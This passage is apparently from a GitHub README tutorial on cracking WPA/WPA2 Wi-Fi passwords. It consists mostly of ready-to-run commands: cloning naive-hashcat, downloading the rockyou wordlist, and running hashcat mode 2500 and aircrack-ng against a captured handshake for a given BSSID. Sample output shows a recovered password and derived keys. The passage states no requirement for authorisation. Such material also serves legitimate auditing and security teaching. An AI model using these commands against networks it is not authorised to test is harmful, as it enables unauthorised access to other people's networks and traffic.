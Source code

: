 # download
git clone https://github.com/brannondorsey/naive-hashcat
cd naive-hashcat

# download the 134MB rockyou dictionary file
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# crack ! baby ! crack !
# 2500 is the hashcat hash mode for WPA/WPA2
HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh
Naive-hashcat uses various dictionary, rule, combination, and mask (smart brute-force) attacks and it can take days or even months to run against mid-strength passwords. The cracked password will be saved to hackme.pot, so check this file periodically. Once you've cracked the password, you should see something like this as the contents of your POT_FILE:

e30a5a57fc00211fc9f57a4491508cc3:9c5c8ec9abc0:acd1b8dfd971:ASUS:hacktheplanet
Where the last two fields separated by : are the network name and password respectively.

If you would like to use hashcat without naive-hashcat see this page for info.

Cracking With Aircrack-ng
Aircrack-ng can be used for very basic dictionary attacks running on your CPU. Before you run the attack you need a wordlist. I recommend using the infamous rockyou dictionary file:

# download the 134MB rockyou dictionary file
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
Note, that if the network password is not in the wordfile you will not crack the password.

# -a2 specifies WPA2, -b is the BSSID, -w is the wordfile
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt hackme.cap
If the password is cracked you will see a KEY FOUND! message in the terminal followed by the plain text version of the network password.

                                 Aircrack-ng 1.2 beta3


                   [00:01:49] 111040 keys tested (1017.96 k/s)


                         KEY FOUND! [ hacktheplanet ]


      Master Key     : A1 90 16 62 6C B3 E2 DB BB D1 79 CB 75 D2 C7 89 
                       59 4A C9 04 67 10 66 C5 97 83 7B C3 DA 6C 29 2E 

      Transient Key  : CB 5A F8 CE 62 B2 1B F7 6F 50 C0 25 62 E9 5D 71 
                       2F 1A 26 34 DD 9F 61 F7 68 85 CC BC 0F 88 88 73 
                       6F CB 3F CC 06 0C 06 08 ED DF EC 3C D3 42 5D 78 
                       8D EC 0C EA D2 BC 8A E2 D7 D3 A2 7F 9F 1A D3 21 
